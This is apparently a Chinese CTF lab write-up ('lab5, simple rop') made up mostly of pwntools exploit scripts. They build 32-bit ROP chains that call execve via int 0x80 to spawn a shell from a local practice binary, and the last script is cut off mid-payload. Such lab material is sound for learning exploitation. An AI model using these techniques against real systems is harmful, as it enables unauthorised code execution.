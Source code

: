 ```python
pay += p32(p_system) + 'bbbb' + p32(pbinsh)
cn.sendline(pay)
cn.interactive()
```



## lab5

simple rop,也不多解释了

两种版本：

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
bin = ELF('simplerop')

cn = process('./simplerop')

cn.recv()

p_read = 0x0806CD50
p_eax_ret = 0x080bae06
p_edx_ecx_ebx_ret = 0x0806e850
int_80 = 0x80493e1
# Padding goes here
p = ''
p += 'a'*0x1c + 'bbbb'
p += p32(p_read) + p32(p_edx_ecx_ebx_ret) + p32(0) + p32(bin.bss()) + p32(0x10)
p += p32(p_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(bin.bss())
p += p32(p_eax_ret) + p32(0xb)
p += p32(int_80)
print hex(len(p))

cn.sendline(p)
cn.sendline('/bin/sh\0')
cn.interactive()
```

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

host = "10.211.55.28"
port = 8888

r = process('./simplerop')

gadget = 0x809a15d # mov dword ptr [edx], eax ; ret
pop_eax_ret = 0x80bae06
pop_edx_ret = 0x806e82a
pop_edx_ecx_ebx = 0x0806e850
pop_eax_ret = 0x080bae06
buf = 0x80ea060
int_80 = 0x80493e1

#write to memory
payload = "a"*32
payload += p32(pop_edx_ret)
payload += p32(buf)
payload += p32(pop_eax_ret)
payload += "/bin"
```